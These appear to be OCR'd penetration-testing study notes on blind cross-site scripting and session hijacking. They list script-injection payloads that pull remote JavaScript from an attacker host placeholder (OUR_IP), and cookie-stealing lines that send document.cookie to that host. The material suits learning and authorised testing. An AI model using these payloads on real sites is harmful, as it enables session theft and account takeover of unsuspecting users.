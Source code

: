 
## BLIND XSS

**Definition**: Occurs when application does not react to the payload immediately, or displays on another screen, or at a page which attacker does not have access to.

### Challenge
- How to identify the vulnerable field
- How to know which XSS payload will work

### Solution
- Create a server (netcat or PHP) and make requests to it with each payload
- Use `<script>` tags or inline JavaScript execution
- Call custom JS files using payloads

### Blind XSS Payloads
```javascript
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

### How to Find Blind XSS
- Try different payloads in each field and monitor server requests
- Ignore fields with backend validation (email fields)
- Passwords can usually be ignored (stored as hashes)

---

## Session Hijacking

Once XSS entry point is identified, extract cookies using JavaScript execution:

### Cookie Extraction Payloads
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

### Remote Script Method
```javascript
<script src=http://OUR_IP/script.js></script>
```

---
